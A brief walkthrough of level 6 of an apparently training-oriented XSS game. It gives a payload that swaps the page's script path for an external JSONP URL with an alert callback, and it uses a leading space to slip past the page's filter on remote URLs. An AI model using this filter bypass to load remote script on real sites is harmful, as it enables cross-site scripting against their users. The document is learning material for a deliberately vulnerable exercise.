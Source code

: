 # **XXSgame Level 6**
![](https://i.imgur.com/Gz5iHST.png)
Replace `/static/gadget.js` with ` https://www.google.com/jsapi?callback=alert`.
In Source code, you will see if you don't add `space` before the code, it will crash.
But without `https://`, you can't use external evil JS file.

![](https://i.imgur.com/ivWSeky.png)

![](https://i.imgur.com/xPI0QXA.png)



